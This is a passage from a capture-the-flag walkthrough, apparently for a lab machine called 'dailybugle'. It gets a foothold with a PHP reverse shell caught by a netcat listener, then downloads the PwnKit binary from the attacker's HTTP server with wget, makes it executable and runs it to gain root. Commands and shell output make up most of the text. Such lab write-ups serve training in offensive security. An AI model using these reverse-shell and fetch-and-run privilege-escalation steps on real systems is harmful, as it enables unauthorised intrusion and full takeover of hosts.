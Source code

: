>https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Make sure to change the ip address in the php file.

Start the netcat listener and navigate to main website that's being hosted on port 80.

```
┌──(root㉿kali)-[~/tools]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.6.10.164] from (UNKNOWN) [10.10.59.64] 48864
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:46:50 up 34 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
```

We get a foothold on the machine.

# Privilege Escalation

## Method 1

Use the PwnKit exploit to get root privileges.

>https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit

Download the binary to host machine and serve it using python http web server. Then download the binary to the target machine's /tmp directory, change the permissions to executable and run it.

```
python -m http.server
```

```
sh-4.2$ wget http://10.6.10.164:8000/PwnKit
wget http://10.6.10.164:8000/PwnKit
--2023-03-20 02:01:32--  http://10.6.10.164:8000/PwnKit
Connecting to 10.6.10.164:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: 'PwnKit'

100%[======================================>] 18,040      --.-K/s   in 0.09s   

2023-03-20 02:01:32 (189 KB/s) - 'PwnKit' saved [18040/18040]

sh-4.2$ chmod +x PwnKit
chmod +x PwnKit
sh-4.2$ ./PwnKit
./PwnKit
[root@dailybugle tmp]# id
id
uid=0(root) gid=0(root) groups=0(root),48(apache)
[root@dailybugle tmp]# 
```

